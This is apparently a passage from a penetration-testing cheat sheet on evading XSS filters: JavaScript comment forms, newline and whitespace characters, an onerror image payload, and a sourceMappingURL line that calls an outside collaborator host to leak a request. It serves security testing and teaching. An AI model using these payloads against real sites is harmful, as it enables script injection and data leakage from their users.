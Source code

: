 **Space substitutions inside JS code**

```javascript
<TAB>
/**/
```

**JavaScript comments (from** [**JavaScript Comments**](./#javascript-comments) **trick)**

```javascript
//This is a 1 line comment
/* This is a multiline comment*/
<!--This is a 1line comment
#!This is a 1 line comment, but "#!" must to be at the beggining of the first line
-->This is a 1 line comment, but "-->" must to be at the beggining of the first line
```

**JavaScript new lines (from** [**JavaScript new line**](./#javascript-new-lines) **trick)**

```javascript
//Javascript interpret as new line these chars:
String.fromCharCode(10); alert('//\nalert(1)') //0x0a
String.fromCharCode(13); alert('//\ralert(1)') //0x0d
String.fromCharCode(8232); alert('//\u2028alert(1)') //0xe2 0x80 0xa8
String.fromCharCode(8233); alert('//\u2029alert(1)') //0xe2 0x80 0xa9
```

**JavaScript whitespaces**

```javascript
log=[];
function funct(){}
  for(let i=0;i<=0x10ffff;i++){
      try{
        eval(`funct${String.fromCodePoint(i)}()`);
        log.push(i);
      }
      catch(e){}
  }
console.log(log)
//9,10,11,12,13,32,160,5760,8192,8193,8194,8195,8196,8197,8198,8199,8200,8201,8202,8232,8233,8239,8287,12288,65279

//Either the raw characters can be used or you can HTML encode them if they appear in SVG or HTML attributes:
<img/src/onerror=alert&#65279;(1)>
```

**Javascript inside a comment**

```javascript
//If you can only inject inside a JS comment, you can still leak something
//If the user opens DevTools request to the indicated sourceMappingURL will be send

//# sourceMappingURL=https://evdr12qyinbtbd29yju31993gumlaby0.oastify.com
```

**JavaScript without parentheses**
